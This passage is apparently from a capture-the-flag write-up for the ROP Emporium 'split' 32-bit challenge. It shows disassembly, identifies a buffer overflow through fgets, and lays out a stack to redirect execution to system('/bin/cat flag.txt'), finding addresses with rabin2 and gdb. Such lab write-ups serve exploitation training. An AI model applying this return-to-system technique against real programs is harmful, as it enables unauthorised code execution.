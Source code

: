```shell
|           0x0804863d      50             push eax
|           0x0804863e      e8cdfdffff     call sym.imp.fgets          ; char *fgets(char *s, int size, FILE *stream)
|           0x08048643      83c410         add esp, 0x10
|           0x08048646      90             nop
|           0x08048647      c9             leave
\           0x08048648      c3             ret
[0x080485f6]> 
```

Instruction `0x08048607` creates a buffer of size 0x20 and stores it in `local_28h`. Instruction `0x0804863e` calls fgets and reads 0x60 characters into `local_28h`. There's our overflow.

Let's take a look at `usefulFunction()`.
```shell
[0x080485f6]> s sym.usefulFunction
[0x08048649]> pdf
/ (fcn) sym.usefulFunction 25
|   sym.usefulFunction ();
|           0x08048649      55             push ebp
|           0x0804864a      89e5           mov ebp, esp
|           0x0804864c      83ec08         sub esp, 8
|           0x0804864f      83ec0c         sub esp, 0xc
|           0x08048652      6847870408     push str.bin_ls             ; 0x8048747 ; "/bin/ls"
|           0x08048657      e8d4fdffff     call sym.imp.system         ; int system(const char *string)
|           0x0804865c      83c410         add esp, 0x10
|           0x0804865f      90             nop
|           0x08048660      c9             leave
\           0x08048661      c3             ret
[0x08048649]> 
```

This calls `system("/bin/ls")`, which is not what we want. We want `system("/bin/cat flag.txt")`. How do we change the argument that `system()` gets called with?

The way we get around this is to call `system()` ourselves. This is how we must set up the stack so we can call `system("/bin/cat flag.txt")`.

```
              <Top of stack>
|  {AAAAAAAAAAAAAAAA_buffer_overflow_str}  |
|  {overwritten_eip_with_addr_to_system}   |
|  {return_addr_of_system}                 |
|  {address_to_bin_cat_string}             |
```

I use rabin2 to find addresses of strings, and gdb to find the address of `system@plt`. For more information about how the Global Offset Table (GOT) and the Procedure Linkage Table (PLT) work, see [this](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html).
```shell
root@kali:~/Documents/ropemporium/split/32split# rabin2 -z split32 
[Strings]
Num Paddr      Vaddr      Len Size Section  Type  String
000 0x000006f0 0x080486f0  21  22 (.rodata) ascii split by ROP Emporium
001 0x00000706 0x08048706   7   8 (.rodata) ascii 32bits\n
002 0x0000070e 0x0804870e   8   9 (.rodata) ascii \nExiting
003 0x00000718 0x08048718  43  44 (.rodata) ascii Contriving a reason to ask user for data...
004 0x00000747 0x08048747   7   8 (.rodata) ascii /bin/ls
000 0x00001030 0x0804a030  17  18 (.data) ascii /bin/cat flag.txt
root@kali:~/Documents/ropemporium/split/32split# gdb ./split32 
GEF for linux ready, type `gef' to start, `gef config' to configure
78 commands loaded for GDB 8.2.1 using Python engine 3.7
[*] 2 commands could not be loaded, run `gef missing` to know why.
Reading symbols from ./split32...(no debugging symbols found)...done.
gef➤  print 'system@plt'
$1 = {<text variable, no debug info>} 0x8048430 <system@plt>
```